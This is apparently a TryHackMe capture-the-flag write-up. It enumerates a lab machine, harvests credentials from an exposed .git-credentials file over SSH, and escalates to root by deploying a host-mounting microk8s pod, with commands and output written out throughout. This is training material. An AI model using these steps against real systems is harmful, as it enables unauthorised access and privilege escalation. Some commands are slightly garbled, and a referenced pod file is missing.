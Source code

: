 # Frank & Herby make an app|Writeup-TryHackMe|medium
 **this is a solution for Frank and Herby try again.... room on <font color="&#x1F4D8;">https://tryhackme.com</font> **  
 **URl: <font color="&#x1F4D8;"> https://tryhackme.com/room/frankandherby </font>**

# Task 1 "Frank & Herb Make an App!"
 # 1st question
 The question begins asking us what port with a web application listening is open on the machine.
 to know that we have to  run **rustscan** on the **machine_ip**  then we get a list of open ports 
 write the next line in your terminal to create the scan "rustscan -a machine_ip --ulimit 3000"
 **after we create the scan we found that:** 
````

PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
10250/tcp open  ssl/http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
10255/tcp open  http     Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
25000/tcp open  ssl/http Gunicorn 19.7.1
31337/tcp open  http     nginx 1.21.3
32000/tcp open  unknown 

````
**If we look carefully there is only one port that fits what we need. Alternatively you can visit each of them in the browser until you find the one that connects.**

 # 2nd question
now we  will use gobuster to discover what other directories there  using the port number from 1st question
```` gobuster -e -u  $machine_ip:31337 -w -w /usr/share/wordlists/dirb/common.txt ````
**the output for that scan is:** 
````
http://machine_ip/.git-credentials
http://machine_ip/assets
http://machine_ip/css
http://machine_ip/index.html
http://machine_ip/vendor

````
the answer will be the first directory :**.git-credentials**
#3rd question
after that we will curl on the first ip address:````curl $machine_ip:31337/.git-credentials````
the output is ````http://frank:PASSWORD@192.168.100.50````
and these credentials allow us  access through SSH using this coomand ````ssh frank@$machine_ip````
after we access to the machine we will use the ````ls```` command to list all files in the machine 
after that  we have found two folders and one text file  **the flag will be in the text file**
# 4th question
 in this question we have to access using root 
 we may try to run ````sudo -l```` to see what frank can run as ````sudo```` with.
 unfortunately, frank is neither in the sudoers file nor the ````sudo```` group.
 but after some search i noticed that the trick of this room is There is microk8s on the machine used to deploy the app.
 now we  can list all the relevant deployments, pods etc. ````with microk8s kubectl get all````
````
frank@dev-01:~$ microk8s kubectl get pods
NAME                                READY   STATUS    RESTARTS   AGE
nginx-deployment-7b548976fd-77v4r   1/1     Running   2          11d
````
So we've found a running pod, but this doesn't give us the image definition used to build its containers - this requires another kubectl command to output the pod's configuration in yaml, revealing an image available at a local registry running on localhost:32000 :
````
frank@dev-01:~$ microk8s kubectl get pod nginx-deployment-7b548976fd-77v4r -o yaml
apiVersion: v1
kind: Pod
metadata:
  annotations:
    cni.projectcalico.org/podIP: 10.1.133.238/32
...snip...
spec:
  containers:
  - image: localhost:32000/bsnginx
    imagePullPolicy: Always
````
We can use this image in a revised version of the pod configuration file included above. Start by changing the "image" key of this file from "ubuntu:latest" to "localhost:32000/bsnginx" and save the resulting file as "exploit.yaml". We can now follow the exploit POC, applying the new pod definition to the cluster :
````
frank@dev-01:~$ microk8s kubectl apply -f exploit.yaml
pod/hostmount created
````
and now  create a shell session in the new container
````
frank@dev-01:~$ microk8s kubectl exec -it hostmount /bin/bash
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
root@hostmount:/# ls /opt/root/root
root.txt  snap
````
The root flag is at /opt/root/root/root.txt (i.e. /root/root.txt on the host machine).
